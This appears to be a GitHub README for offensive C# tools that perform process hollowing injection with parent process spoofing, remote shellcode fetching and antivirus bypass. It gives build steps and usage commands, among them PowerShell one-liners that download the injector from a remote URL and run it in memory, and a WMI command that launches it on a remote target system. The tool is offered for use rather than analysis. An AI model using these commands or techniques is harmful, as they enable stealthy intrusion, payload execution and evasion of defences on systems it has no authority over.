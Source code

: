 # StagelessHollow
Multiple C# based tools that perform the Process Hollowing injection technique, can hold- or remotely fetch  base64 encoded shellcode, doesn't require any arguments to operate and has some additional AV heuristic bypass techniques baked in. Furthermore, the ParentProcessInjection tool performs the parent spoofing technique to further obfuscate its presence. 

### Prepare & Compile tool:
<b>ParentHollowInjection:</b>
```
- 1. Open the tool's project file in Visual Studio.
- 2. Either add your own base64 encoded shellcode directly in the placeholder OR specify an URL to fetch the shellcode remotely.
- 3. Specify the path to a program location that will be launched and used to inject the shellcode into.
- 4. Specify the name of an already running process (e.g. explorer) which will serve as the parent process (parent process spoofing).
- 5. Build the project (don't forget to enable the "Allow unsafe code" option under "Properties > Build").
```

<b>HollowInjection:</b>
```
- 1. Open the tool's project file in Visual Studio
- 2. Either add your own base64 encoded shellcode directly in the placeholder OR specify an URL to fetch the shellcode remotely.
- 3. Either specify the path to a program location that will be launched and used to inject the shellcode into OR specify the path as an argument during execution of the tool (check usage below). 
- 4. Build the project (don't forget to enable the "Allow unsafe code" option under "Properties > Build").
```

### Usage examples:
<b>ParentHollowInjection:</b>

Load ParentHollowInjector.exe from remote location and execute in memory using PowerShell:
```
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("https://<URL>/ParentHollowInjector.exe")); [ParentHollowInjector.Program]::Main(@(""))
```
After uploading ParentHollowInjector.exe to a target system, execute it remotely from disk:
```
Invoke-WmiMethod –ComputerName <FQDN target system> -Class win32_process -Name create -ArgumentList "C:\Windows\Temp\ParentHollowInjection.exe"
```

<b>HollowInjection:</b>

Run tool from disk with optional argument:
```
C:\Windows\Temp\HollowInjection.exe [/program:C:\<path to program.exe>]
```
Load tool from remote location and execute in memory with argument specified:
```
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("https://<URL>/HollowInjector.exe")); [HollowInjector.Program]::Main(@("/program:C:\Windows\System32\notepad.exe"))
```

### Credit & References:
This code is <b>heavily</b> based on the [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection) project which is on itself based on the Process Hollowing code from [Aaron Bray](https://github.com/ambray) and [Rasta Mouse](https://github.com/rasta-mouse). 




